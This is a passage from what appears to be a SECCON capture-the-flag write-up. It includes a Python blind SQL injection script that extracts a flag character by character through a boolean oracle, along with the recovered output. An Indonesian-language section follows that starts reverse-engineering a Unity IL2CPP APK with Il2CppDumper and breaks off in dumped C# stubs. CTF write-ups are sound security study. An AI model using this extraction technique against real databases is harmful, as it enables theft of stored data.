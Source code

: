 Okay now we should dump all rows with `value` column.
```python
...
def dump_flag():
    flag = ""
    while 1:
        lo = 0
        hi = 255
        while lo <= hi:
            mid = (lo+hi)//2
            s = "select ascii(substr((select group_concat(value) from flags),{},1)) > {}"
            s = s.format(len(flag)+1, mid)
            if check(s):
                lo = mid+1
            else:
                hi = mid-1
        if lo == 0:
            return flag
        flag += chr(lo)
        print(flag)

dump_flag()
```

We got this output, and the flag is valid!
```
S
SE
SEC
SECC
...
SECCON{1NV4L1D_4DM1N_P4G3_4U+H3NT1C4T10
SECCON{1NV4L1D_4DM1N_P4G3_4U+H3NT1C4T10N
SECCON{1NV4L1D_4DM1N_P4G3_4U+H3NT1C4T10N}
```

Flag: `SECCON{1NV4L1D_4DM1N_P4G3_4U+H3NT1C4T10N}`

## Bahasa Indonesia
Kami mempelajari bahwa APK di-build dengan Unity. Terdapat juga file `lib/x86/libil2cpp.so`, menandakan bahwa di-build juga dengan [IL2CPP](https://docs.unity3d.com/Manual/IL2CPP.html). Kami menggunakan [IL2CppDumper](https://github.com/Perfare/Il2CppDumper) untuk menganalisas APK ini, dan memasukkan file `lib/x86/libil2cpp.so` dan `assets/bin/Data/Managed/Metadata/global-metadata.dat` dari APK. Kami menggunakan metode `Auto (Plus)` untuk dump-nya. Kemudian program tersebut membuat beberapa file, dan yang paling menarik adalah `dump.cs` and `script.py`.

File `dump.cs` berisi class dan interface.
```c#
...
public static class Config // TypeDefIndex: 3750
{
	// Fields
	public static string domain; // 0x0
	public static string stgDomain; // 0x4
	public static string devDomain; // 0x8
	public static string adminApi; // 0xC
}
...
public class GameDirector : MonoBehaviour // TypeDefIndex: 3753
{
	// Methods
	public void .ctor(); // 0xB1BF86
	private void Start(); // 0xB1C018
	private void ChangeStep(); // 0xB1C123
	private void HandleChangingStep(); // 0xB1C13B
```